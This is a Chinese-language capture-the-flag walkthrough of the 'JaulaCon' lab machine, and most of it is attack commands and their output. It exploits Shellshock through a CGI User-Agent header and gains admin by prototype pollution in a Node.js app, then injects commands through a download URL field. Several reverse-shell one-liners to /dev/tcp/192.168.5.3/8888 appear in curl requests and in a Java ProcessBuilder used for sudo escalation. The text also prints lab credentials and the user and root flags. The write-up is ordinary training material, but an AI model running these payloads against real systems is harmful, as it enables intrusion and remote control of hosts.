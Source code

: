 # JaulaCon

2025.03.08 https://thehackerslabs.com/jaulacon/

[video]()

## Ip

192.168.5.40

## Scan

```
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3333/tcp open  dec-notes
8080/tcp open  http-proxy
```

80 为静态 web，发现 2 个顾客的人名 Jamesh Dame 和 Jumini Kiri ，其他无可用信息。

3333 对应 Node.js，访问后直接跳转到登陆 http://192.168.5.40:3333/login 目前没有登陆用户名和密码，简单测试也不存在 sql 注入。

8080 显示 apache 页面，扫描出了 http://192.168.5.40:8080/cgi-bin/ :

```
dirb http://192.168.5.40:8080/

gobuster dir -t 100 -k -e -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-directories.txt -u http://192.168.5.40:8080/cgi-bin/ -x sh,py,cgi,perl
```

这里找到 cgi 文件 http://192.168.5.40:8080/cgi-bin/agua.cgi 显示：

```
Test
Vulnerable
This is a test
```

像是有 shellshock，进行探测，证明存在：

```
curl -H 'User-Agent: () { :;}; echo; echo 1' http://192.168.5.40:8080/cgi-bin/agua.cgi
curl -H 'User-Agent: () { : ;}; echo; /bin/bash -c "echo 1"' http://192.168.5.40:8080/cgi-bin/agua.cgi
或者
nmap 192.168.5.40 -p 8080 --script=http-shellshock --script-args uri=/cgi-bin/agua.cgi
```

当 Bash<=4.3，bash 使用的环境变量是通过函数名称来调用的，以“(){”开头通过环境变量来定义的。而在处理这样的“函数环境变量”的时候，并没有以函数结尾“}”为结束，而是一直执行其后的 shell 命令。

然后执行反弹 shell 操作：

```
curl -H 'User-Agent: () { : ;}; echo; /bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.5.3/8888 0>&1"' http://192.168.5.40:8080/cgi-bin/agua.cgi
```

或者使用另外一个漏洞利用库进行利用 https://github.com/nccgroup/shocker :

```
python2  ./shocker/shocker.py --Host 192.168.5.40 --port 8080 --command "/bin/cat /etc/passwd" --cgi /cgi-bin/agua.cgi
```

然后执行反弹命令，在 kali 上得到了反弹的 shell。先看到了这个 cgi 的源码：

```
www-data@ebe553aaa355:/var/www$ cat /usr/lib/cgi-bin/agua.cgi
#!/bin/bash

echo "Content-type: text/plain"
echo
echo
echo "Test"
echo
echo

# Vulnerable line
env x='() { :;}; echo Vulnerable' bash -c "echo This is a test"
```

进入系统后，发现是在 docker 容器中，有 .dockerenv 文件，但是没有任何特权，不能提权到宿主机。

发现隐藏文件 /opt/.credenciales : `Shellychosk:Portidrea345ñ` 可能是 ssh 或者是 3333 那个登陆页面的用户凭据。不是 ssh 的，是 3333 端口的。

登陆后，可以输入 url 下载文件，这里可能存在 SSRF。输入一个 http 请求，提示不是管理员，需要寻找提升到管理员的方法。

3333 对应的 web 服务是 Node.js 搭建的，可能存在 Prototype Pollution，当创建新对象时，会传入原型“对象”的属性和方法，其中包含 toString、constructor 和 hasOwnProperty 等基本功能，一旦对`__proto__`属性进行更改，它就会应用于正在运行的应用程序中的所有 JavaScript 对象，包括在操作后创建的对象。

利用过程如下：

1. 先使用上面的用户凭据登陆，然后获得 cookie 中的 admin_session 值:

```
curl -X POST -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=Shellychosk&password=Portidrea345ñ' http://192.168.5.40:3333/login -v

admin_session=e4ad770982de667ccfcb380c13a87bc30f0e1e91bca7a223ff9461345507672a4b4f255db1925f0bb06f1153496e3ecca34b28e168c42addeb094e7ea21ed2f2
```

2. 进行原型链污染，会返回 Forbidden:

```
curl -X POST -H 'Content-Type: application/json' -d '{"url":1,"__proto__":{"admin":"true","isAdmin":"true","isadmin":"true"}}' http://192.168.5.40:3333/admin/check_url -v
```

3. 再次访问 check_url，这时系统内部的属性已经变成 admin，执行后会显示 File Downloaded：

```
curl -X POST -b 'admin_session=e4ad770982de667ccfcb380c13a87bc30f0e1e91bca7a223ff9461345507672a4b4f255db1925f0bb06f1153496e3ecca34b28e168c42addeb094e7ea21ed2f2' -H 'Content-Type: application/json' -d '{"url":1,"__proto__":{"admin":"true","isAdmin":"true","isadmin":"true"}}' http://192.168.5.40:3333/admin/check_url -v
```

4. 执行命令验证(猜测目标机器上使用的是 Node.js 中的 exec 执行的系统命令，并且使用的是 wget url -O 这种形式进行的下载，url 现在可控，需要把前面和后面必合掉才能执行自己的命令)：

```
curl -X POST -b 'admin_session=e4ad770982de667ccfcb380c13a87bc30f0e1e91bca7a223ff9461345507672a4b4f255db1925f0bb06f1153496e3ecca34b28e168c42addeb094e7ea21ed2f2' -H 'Content-Type: application/x-www-form-urlencoded' --data-urlencode 'url=; ping -c 5 192.168.5.3 #' http://192.168.5.40:3333/admin/check_url -v
```

5. 执行反弹 shell

```
curl -X POST -b 'admin_session=e4ad770982de667ccfcb380c13a87bc30f0e1e91bca7a223ff9461345507672a4b4f255db1925f0bb06f1153496e3ecca34b28e168c42addeb094e7ea21ed2f2' -H 'Content-Type: application/x-www-form-urlencoded' --data-urlencode 'url=; /bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.5.3/8888 0>&1" #' http://192.168.5.40:3333/admin/check_url -v
```

得到了反弹的 shell，在用户 jaula 下拿到了 user flag：

```
jaula@JaulaCon:~$ cat user.txt
3ac6640322d7d06957d3773fab3b27b7
```

sudo -l 显示 (root) NOPASSWD: /usr/bin/java 直接提权到 root：

创建 shell.java 文件：

```java
public class shell {
    public static void main(String[] args) {
        ProcessBuilder pb = new ProcessBuilder("bash", "-c", "$@| bash -i >& /dev/tcp/192.168.5.3/8888 0>&1")
            .redirectErrorStream(true);
        try {
            Process p = pb.start();
            p.waitFor();
            p.destroy();
        } catch (Exception e) {}
    }
}
```

javac shell.java & java shell 在 kali 上监听 8888 得到反弹的 shell，读取到最终的 root flag：

```
root@JaulaCon:~# cat root.txt
bdc7c8e1ce71e0ebff2d76d9b58c9b74
```
